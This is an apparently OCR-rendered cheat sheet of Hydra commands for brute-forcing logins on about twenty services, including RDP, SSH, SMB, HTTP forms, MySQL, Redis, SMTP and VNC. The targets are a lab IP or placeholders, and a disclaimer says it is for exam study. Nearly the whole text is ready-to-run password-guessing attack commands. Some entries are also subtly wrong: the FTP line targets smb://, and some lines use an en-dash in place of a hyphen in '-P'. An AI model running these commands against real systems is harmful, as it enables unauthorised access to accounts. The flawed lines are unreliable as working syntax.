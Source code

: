﻿<a name="br1"></a>Hydra Cheat Sheet GUI

xhydra

RDP

hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V

SSH

hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V

SMB

hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V

FTP

hydra -l root -P passwords.txt -f smb://10.0.2.5 -V

HTTP Basic Auth

hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V

HTTP Post

hydra -L users.txt -P password.txt 10.0.2.5 http-post-form"/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Loginname or password is incorrect" -V

IMAP

hydra -l root -P passwords.txt -f imap://10.0.2.5 -V

MySQL

hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V

POP

hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V

Redis

hydra –P password.txt redis://10.0.2.5 -V

Rexec

hydra -l root -P password.txt rexec://10.0.2.5 -V

Rlogin

hydra -l root -P password.txt rlogin://10.0.2.5 -V

RSH

hydra -L username.txt rsh://10.0.2.5 -V

**Disclaimer** – This cheat sheet was created to help people with exams. It is not for the

purposes of hacking public infrastructure.



<a name="br2"></a>Hydra Cheat Sheet RSP

hydra -l root -P passwords.txt <IP> rtsp

SMTP

hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V

hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V#Port 587 for SMTP with SSL

Telnet

hydra -l root -P passwords.txt [-t 32] <IP> telnet

VNC

hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vnc

**Disclaimer** – This cheat sheet was created to help people with exams. It is not for the

purposes of hacking public infrastructure.
